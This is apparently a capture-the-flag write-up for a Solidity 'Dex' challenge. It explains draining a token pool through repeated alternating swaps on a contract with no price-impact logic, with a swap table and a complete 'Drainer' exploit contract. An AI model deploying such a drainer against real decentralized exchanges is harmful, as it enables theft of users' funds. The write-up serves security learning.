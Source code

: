 ### Goals

Steal at least 1 of the 2 tokens from the Dex contract.

### Exploit

We can manipulate the price by peroforming sequential swaps from one token to another. Creating price disruption. As we can see the Dex contract lacks any logic for price impact so this is the root cause that we will exploit.

|              | token 1 | token 2 |                |   amountOut    |
| :----------: | :-----: | :-----: | :------------: | :------------: |
| 10 token1 in |   100   |   100   | 10 token2 out  | 10\*100/100=10 |
| 20 token2 in |   110   |   90    | 24 token1 out  | 20\*110/90=24  |
| 24 token1 in |   86    |   110   | 30 token2 out  | 24\*110/86=30  |
| 30 token2 in |   110   |   80    | 41 token1 out  | 30\*110/80=41  |
| 41 token1 in |   69    |   110   | 65 token2 out  | 41\*110/69=65  |
| 45 token2 in |   110   |   45    | 110 token1 out | 45\*110/45=110 |

### Code

Deploy contract in Remix

```code
contract Drainer {
    address public token1;
    address public token2;

    bool flag;

    Dex target;

    constructor(address _dex) {
        target = Dex(_dex);
        token1 = target.token1();
        token2 = target.token2();
    }

    function pwn() public {
        target.approve(address(target), 1000);

        // initial disruption
        swap(token1, token2, 10);

        // keep swapping alternately unless flag is set to true
        while (!flag) {
            if(target.balanceOf(token1, address(this)) == 0) {
                swap(token2, token1, target.balanceOf(token2, address(this)));
            } else {
                swap(token1, token2, target.balanceOf(token1, address(this)));
            }
        }
    }

    function swap(address tokenIn, address tokenOut, uint256 amount) internal {
        try target.swap(tokenIn, tokenOut, amount) {
            // ok
        } catch {
            // calculated manually the amountIn to drain the second tokens
            target.swap(tokenIn, tokenOut, 45);
            flag = true;
        }
    }
}
```

Before running `Drainer::pwn()` we need to transfer tokens to the `Drainer`. We could do this by attaching to IERC20 instatnces of tokens in Remix.

Then call `pwn`

Done!

